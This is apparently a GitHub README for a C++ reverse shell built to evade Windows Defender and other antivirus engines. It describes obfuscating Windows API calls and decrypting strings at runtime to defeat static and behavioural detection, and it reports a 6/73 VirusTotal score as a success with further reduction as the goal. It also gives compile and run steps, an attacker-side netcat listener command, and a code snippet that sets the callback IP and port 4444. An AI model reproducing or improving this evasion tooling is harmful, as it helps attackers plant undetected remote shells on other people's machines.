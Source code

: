 # Bypassing-Windows-Defender

## Project Overview

This project focuses on developing a C++ reverse shell that initially triggers detection by Windows Defender and other AV solutions. The challenge was to bypass these detections through various obfuscation techniques. The current state of the project has successfully reduced detection rates significantly, as demonstrated by testing on VirusTotal.

## Key Features of the Project


- **Advanced API Obfuscation:** 
  - Applied a custom obfuscation algorithm to crucial Windows API functions like `LoadLibrary` and `GetProcAddress`. By obscuring these function calls, the reverse shell becomes significantly harder to reverse-engineer, providing an additional layer of evasion against static analysis tools.
  - Implemented runtime string decryption to hide function names and other sensitive information from memory until they are required for execution

  
- **Network Communication via Winsock:** 
  - Integrated socket programming to establish TCP communication dynamically. This setup allows the reverse shell to connect to predefined IP addresses and ports for remote system access.
  - Implemented flexible communication parameters, allowing easy modification of the server's IP and port settings without altering the core code.


- **Dynamic De-obfuscation Logic:** 
  - Developed lightweight, runtime de-obfuscation functions to resolve obfuscated API calls. These functions allow the reverse shell to perform necessary tasks while keeping obfuscation in place until the last possible moment, reducing the chance of detection by behavioral analysis.

# VirusTotal Results

The obfuscated reverse shell has been tested on VirusTotal and achieved a detection rate of `6/73`, indicating significant success in bypassing most antivirus engines, including Windows Defender. The goal of future iterations will be to further reduce this detection rate.

![VirusTotal_POC](https://github.com/user-attachments/assets/b0a095f6-5ffd-467b-a646-1cf7a47353c4)

## How to Run It

## 1. Prerequisites

- **Compiler**: Visual Studio with C++ support
- **Windows SDK**: Installed with necessary headers for Windows API programming
- **Socket Library**: Ensure `winsock2.h` is available
- **Administrator Privileges**: Required for running certain operations like socket creation

## 2. Steps to Compile and Execute

### Clone the repository:

```bash
git clone https://github.com/kaddiri/Bypassing-windows-defender.git
cd Bypassing-windows-defender
```
### Open the project in **Visual Studio**.
### Configure the project:

- Make sure to link the Winsock2 library by adding `ws2_32.lib` to the linker settings.
- Ensure all paths for the Windows SDK and required headers are correctly set.
  
### Compile the project:

- Select the build configuration (Debug/Release).
- Build the solution by clicking on **Build** > **Build Solution**.
  
### Run the reverse shell:

- Execute the compiled binary as an administrator for it to work properly.
- On the attacker’s side, set up a listener to receive the reverse shell connection:
  ```bash
  nc -lvp <PORT>
  ```
### Modify the IP address and port in the source code to match your attacker's machine:

```cpp
int ipaddr_offset[] = { 0, 9, 1, 7, 0, 5, 8, 7, 0, 7, 4, 8 }; //192.168.1.58   // Change this to your IP
short port = 4444;                       // Change this to your listener port
```
